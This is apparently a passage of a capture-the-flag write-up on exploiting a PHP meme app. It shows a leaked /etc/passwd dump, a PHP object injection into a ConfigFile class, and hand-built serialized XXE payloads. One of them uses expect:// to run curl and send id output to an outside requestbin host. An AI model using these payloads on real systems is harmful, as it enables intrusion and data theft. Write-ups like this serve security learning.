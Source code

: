 ```
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
u6488:x:6488:6488:,,,:/app:/bin/bash
dyno:x:6488:6488:,,,:/app:/bin/bash

  B
```

First I tried reading some default configurations files like /proc/self/environ and /proc/self/cmdline without any usable information.
Now with file read I can read all the source code of the application. The default /var/www/html/index.php path works fine, that's good news ! Following the path I read generate.php and memes.php, followed by /includes/config.php and /includes/classes.php.
On classes.php we can see that's a class called `ConfigFile` that is not used anywhere and that the code enable external entities on XML with `libxml_disable_entity_loader(false);` showing that the next step is probably a XXE. 
While trying to figure out the next step I remembered that I haven't looked at the /includes/header.php file because I thought that it was useless. Turns out that it has the endpoints import_memes_2.0.php and export_memes_2.0.php on it's comments. 

## Object Injection + XXE + SSRF
Looking at /api/import_memes_2.0.php it's visible that it receives a file that is base64 encoded and unserialize it. After that, it merges with the `$_SESSION['memes']` array. Now I have a clear way to Object Injection into the `ConfigFile` class, but how to exploit it?
Having in mind that we need to get a XXE somewhere, it's clear that we need to call the `parse` function in the class and initialize the class with the `$url` variable being the malicious XXE payload. The `parse` function is only called by `generate` and `__toString` , the latter is a magic function that is called whenever the class is interpreted as a string and that occurs on `memes.php` on the foreach loop.

Now I have a idea how to exploit it.
Create a serialized array, because of the `array_merge()` , with an `ConfigFile` class initialized with a malicious XXE payload.
As it was late of night and I was really tired, I just created all by hand counting the length of the string and all.

The serialized class without the payload looks like this :
```
a:3:{i:0;O:10:"ConfigFile":1:{s:10:"config_raw";s:2:"ab";}}
```
Now I have to insert the XXE payload, note that it must have `toptext` or a `bottomtext` tag to output the result to the page, at first I tried a RCE payload with `expect://`.
```
a:3:{i:0;O:10:"ConfigFile":1:{s:10:"config_raw";s:167:"<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<payload>
    <toptext>&xxe;</toptext>
</payload>";}}
```
But no output was generated, after that I tried to output the stdout to a server with `expect://curl http://requestbin.net/r/w8rpj9w8?a=$(id)` with no success. Turns out that to expect works the module must be loaded on the PHP.
Now the only thing I can think is a SSRF, as I already have local file read. The next payload is a attempt to get the content of http://google.com
```
```